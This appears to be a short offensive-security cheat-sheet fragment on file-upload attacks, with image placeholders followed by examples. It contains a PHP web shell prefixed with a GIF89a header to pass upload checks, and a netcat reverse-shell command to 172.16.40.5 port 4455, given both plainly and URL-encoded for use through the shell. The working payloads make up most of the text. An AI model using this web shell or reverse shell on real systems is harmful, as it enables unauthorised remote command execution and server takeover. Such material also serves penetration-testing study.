




examples
Simple Web shell
GIF89a;
<?php
system($_GET['cmd']);
Upload of the Web Shell

Request

Reverse shell with Webshell
• netcat
nc -nv 172.16.40.5 4455 -e /bin/bash
nc%20-nv%20172.16.40.5%204455%20-e%20%2Fbin%2Fbash

